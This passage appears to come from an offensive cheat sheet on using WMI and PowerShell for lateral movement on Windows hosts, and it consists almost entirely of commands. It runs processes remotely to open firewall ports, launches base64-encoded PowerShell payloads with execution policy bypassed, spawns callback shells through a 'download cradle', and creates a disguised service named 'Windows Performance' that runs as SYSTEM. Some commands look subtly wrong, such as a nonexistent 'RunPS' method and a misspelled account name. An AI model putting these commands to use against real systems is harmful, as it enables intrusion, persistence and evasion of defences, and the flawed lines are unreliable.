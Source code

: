 `C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "cmd.exe /c netsh advfirewall firewall add rule name=\"<rule_name>\" dir=in action=allow protocol=tcp localport=<port>"`

## 02 - Powershell

### 2.1 - Usage

#### 2.1.1 - Invoke-WmiMethod

```
PS C:\> Get-CimInstance -Classname Win32_Net* -List

PS C:\> Invoke-WmiMethod -Class Win32_NetConnection -ComputerName <IP> -Name RunPS -ArgumentList "<commands>"
```

#### 2.1.2 - Invoke-CimMethod

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = "powershell.exe -noni -nop -ep bypass -E <base64_payload>"
}
```

### 2.2 - Use Cases

#### 2.2.1 - Spawn Callback Shells

##### 2.2.1.1 - Download Cradle

- `Invoke-WmiMethod`

```powershell
PS C:\> Invoke-WmiMethod -Class Win32_NetConnection -ComputerName <IP> -Name RunPS -ArgumentList "powershell -E <base64_encoded>"
```

```powershell
PS C:\> $servicetype = [byte] 16
$errorcontrol = [byte] 1
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false, "Windows Performance", $errorcontrol, $null,$null,"WinPerf","c:\windows\system32\cmd.exe /c powershell -e <base64_encoded>",$null,$servicetype,"Manual","NT AUHORITY\SYSTEM","" -ComputerName <IP> -Credential <domain_name>\Administrator
```
